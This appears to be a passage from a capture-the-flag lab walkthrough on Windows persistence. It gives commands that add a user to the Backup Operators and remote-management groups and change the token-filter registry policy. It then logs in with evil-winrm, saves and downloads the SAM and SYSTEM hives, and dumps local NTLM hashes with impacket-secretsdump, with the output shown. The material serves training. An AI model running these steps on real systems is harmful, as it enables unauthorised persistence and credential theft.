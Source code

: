 Using the Administrator console gained through the thmuser1, execute`C:\flags\flag1.exe` to retrieve your flag.


#### Practical
---

Let's use these commands on the windows machine:

```
net localgroup "Backup Operators" thmuser1 /add
net localgroup "Remote Management Users" thmuser1 /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1 
```

![Pasted image 20250515151535.png](../../../IMAGES/Pasted%20image%2020250515151535.png)

We are now able to get access as `thmuser1`:

```
evil-winrm -i IP -u thmuser1 -p Password321
```

Inside of this shell, we need to do:

```
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

Once we've saved all of that, we can use `impacket-secretsdump`:

```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
thmuser1:1008:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser2:1009:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser3:1010:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser0:1011:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::
thmuser4:1013:aad3b435b51404eeaad3b435b51404ee:8767940d669d0eb618c15c11952472e5:::
```
